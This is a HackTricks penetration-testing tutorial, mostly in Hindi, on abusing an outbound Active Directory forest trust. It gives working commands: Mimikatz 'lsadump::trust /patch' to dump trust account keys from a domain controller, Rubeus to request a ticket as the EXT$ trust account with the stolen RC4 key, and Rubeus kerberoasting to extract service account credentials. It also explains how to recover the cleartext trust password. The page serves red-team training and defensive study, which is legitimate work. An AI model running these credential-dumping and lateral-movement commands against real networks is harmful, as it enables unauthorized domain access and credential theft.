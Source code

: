 # External Forest Domain - One-Way (Outbound)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

इस परिदृश्य में **आपका डोमेन** कुछ **विशेषाधिकार** को **विभिन्न डोमेन** से प्रिंसिपल को **विश्वास** कर रहा है।

## Enumeration

### Outbound Trust
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

एक सुरक्षा कमजोरी तब होती है जब दो डोमेन के बीच एक ट्रस्ट संबंध स्थापित किया जाता है, जिसे यहाँ डोमेन **A** और डोमेन **B** के रूप में पहचाना गया है, जहाँ डोमेन **B** अपने ट्रस्ट को डोमेन **A** तक बढ़ाता है। इस सेटअप में, डोमेन **B** के लिए डोमेन **A** में एक विशेष खाता बनाया जाता है, जो दोनों डोमेन के बीच प्रमाणीकरण प्रक्रिया में महत्वपूर्ण भूमिका निभाता है। यह खाता, जो डोमेन **B** से संबंधित है, डोमेन के बीच सेवाओं तक पहुँचने के लिए टिकटों को एन्क्रिप्ट करने के लिए उपयोग किया जाता है।

यहाँ समझने के लिए महत्वपूर्ण पहलू यह है कि इस विशेष खाते का पासवर्ड और हैश डोमेन **A** में एक डोमेन कंट्रोलर से एक कमांड लाइन टूल का उपयोग करके निकाला जा सकता है। इस क्रिया को करने के लिए कमांड है:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
यह निष्कर्षण संभव है क्योंकि खाता, जिसके नाम के बाद **$** है, सक्रिय है और डोमेन **A** के "डोमेन उपयोगकर्ताओं" समूह से संबंधित है, जिससे इस समूह से संबंधित अनुमतियाँ विरासत में मिलती हैं। यह व्यक्तियों को इस खाते के क्रेडेंशियल्स का उपयोग करके डोमेन **A** के खिलाफ प्रमाणीकरण करने की अनुमति देता है।

**चेतावनी:** इस स्थिति का लाभ उठाकर डोमेन **A** में एक उपयोगकर्ता के रूप में एक पैर जमाना संभव है, हालांकि सीमित अनुमतियों के साथ। हालाँकि, यह पहुँच डोमेन **A** पर एन्यूमरेशन करने के लिए पर्याप्त है।

एक परिदृश्य में जहाँ `ext.local` विश्वसनीय डोमेन है और `root.local` विश्वसनीय डोमेन है, `root.local` के भीतर `EXT$` नाम का एक उपयोगकर्ता खाता बनाया जाएगा। विशिष्ट उपकरणों के माध्यम से, Kerberos ट्रस्ट कुंजियों को डंप करना संभव है, जो `root.local` में `EXT$` के क्रेडेंशियल्स को प्रकट करता है। इसे प्राप्त करने के लिए आदेश है:
```bash
lsadump::trust /patch
```
इसके बाद, कोई निकाले गए RC4 कुंजी का उपयोग करके `root.local` के भीतर `root.local\EXT$` के रूप में प्रमाणित हो सकता है, एक अन्य उपकरण कमांड का उपयोग करके:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
यह प्रमाणीकरण चरण `root.local` के भीतर सेवाओं को सूचीबद्ध करने और यहां तक कि शोषण करने की संभावना खोलता है, जैसे कि सेवा खाता क्रेडेंशियल्स निकालने के लिए Kerberoast हमले का प्रदर्शन करना:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### स्पष्ट पाठ ट्रस्ट पासवर्ड एकत्र करना

पिछले प्रवाह में **स्पष्ट पाठ पासवर्ड** के बजाय ट्रस्ट हैश का उपयोग किया गया था (जो कि **mimikatz द्वारा भी डंप किया गया था**).

स्पष्ट पाठ पासवर्ड को mimikatz से \[ CLEAR ] आउटपुट को हेक्साडेसिमल में परिवर्तित करके और नल बाइट्स ‘\x00’ को हटाकर प्राप्त किया जा सकता है:

![](<../../.gitbook/assets/image (938).png>)

कभी-कभी ट्रस्ट संबंध बनाते समय, उपयोगकर्ता द्वारा ट्रस्ट के लिए एक पासवर्ड टाइप करना आवश्यक होता है। इस प्रदर्शन में, कुंजी मूल ट्रस्ट पासवर्ड है और इसलिए मानव पठनीय है। जैसे-जैसे कुंजी चक्रित होती है (30 दिन), स्पष्ट पाठ मानव-पठनीय नहीं होगा लेकिन तकनीकी रूप से अभी भी उपयोगी रहेगा।

स्पष्ट पाठ पासवर्ड का उपयोग ट्रस्ट खाते के रूप में नियमित प्रमाणीकरण करने के लिए किया जा सकता है, जो ट्रस्ट खाते के केर्बेरोस गुप्त कुंजी का उपयोग करके TGT का अनुरोध करने का एक विकल्प है। यहाँ, ext.local से root.local के लिए डोमेन एडमिन्स के सदस्यों का प्रश्न पूछना:

![](<../../.gitbook/assets/image (792).png>)

## संदर्भ

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
